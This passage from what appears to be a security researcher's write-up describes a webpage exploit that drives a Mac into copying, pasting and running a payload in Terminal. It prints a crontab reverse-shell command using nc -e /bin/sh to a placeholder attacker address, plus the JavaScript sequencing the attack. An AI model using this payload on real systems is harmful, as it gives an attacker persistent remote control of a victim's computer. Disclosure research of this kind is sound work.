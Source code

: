 1. Use the "copy" command to copy a payload bash command from my attack website
1. Use the "open OSX terminal" command to open to OSX terminal
1. Use the "paste" command to paste and execute my payload bash command
1. Use the "quit" command to exit the terminal and clean up after myself

My payload bash command would be something like `crontab -l | { cat; echo "*/5 * * * * nc -e /bin/sh ATTACKER.IP.ADDR.ESS 1234"; } | crontab -`. This command creates a cron job that connects back to my machine every 5 minutes, giving me a persistent *reverse shell* that I can use to control the victim's machine. After establishing a connection I could sniff around on the target machine, try to escalate to root privileges, or simply add the machine to a botnet.

I wrote a library (not shown in this post so as to make a would-be attacker's life at least slightly challenging) that allowed me to write exploit JavaScript that looked like this:

```javascript
// NOTE: set the contents of #payload-command to the
// command you would like to execute.
var payload = document.getElementById('payload-command');
payload.focus();
payload.select();

function delay(t) {
  return new Promise(r => setTimeout(r, t))
}

commandRunner = new CommandRunner(deviceID: 12345)

commandRunner.copy().then(() =>
  delay(200)
).then(() =>
  commandRunner.openOSXTerminal()
).then(() =>
  delay(200)
).then(() =>
  commandRunner.paste()
).then(() =>
  delay(200)
).then(() =>
  commandRunner.quitApp()
)
```

I added my library and implementation code to my webpage and refreshed it. The copy/open/paste/quit sequence flashed past in less than a second. Here's a slowed down GIF:
